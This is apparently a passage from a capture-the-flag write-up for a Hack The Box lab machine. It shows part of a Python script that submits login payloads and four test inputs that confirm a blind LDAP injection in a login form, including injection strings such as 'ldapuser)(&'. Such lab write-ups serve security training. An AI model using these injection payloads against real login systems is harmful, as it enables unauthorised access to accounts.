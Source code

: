 ```python

		proxy = {"http": "http://127.0.0.1:8080"}

		print("Payload: {}".format(data['inputUsername']))
		
		r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
		m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
		if m:
			try:
				print(m.group(1))				
			except IndexError:
				print("Something weird happened")

if __name__== "__main__":
	main()
```	

Test #1: Invalid username, no injection
```
> invalid
Payload: invalid
User invalid not found
```
Result: User is not found as expected.

Test #2: Valid username, no injection
```
> ldapuser
Payload: ldapuser
Cannot login
```
Result: User is found but I get an error message because OTP is invalid.

Test #3: Basic injection assuming a search filter like `(&(user) **rest of the query**`
```
> ldapuser)(&
Payload: ldapuser%29%28%26
Cannot login
```
Result: I've successfully identified that LDAP injection is possible since the query returns a result

Test #4: Injection with invalid query to test behaviour of the page when it errors out
```
> ldapuser)(bad_ldap_search)))))(((((
Payload: ldapuser%29%28bad_ldap_search%29%29%29%29%29%28%28%28%28%28

```
Result: I don't get anything back, the page basically refreshes when it gets an invalid query. This is what I saw earlier when fuzzing the page with invalid characters. The characters are not necessarily invalid but they resulted in an invalid LDAP search filter when I was fuzzing.

Conclusion: This is a blind LDAP injection since the page doesn't return the results of the query in a field on the page or in an error message
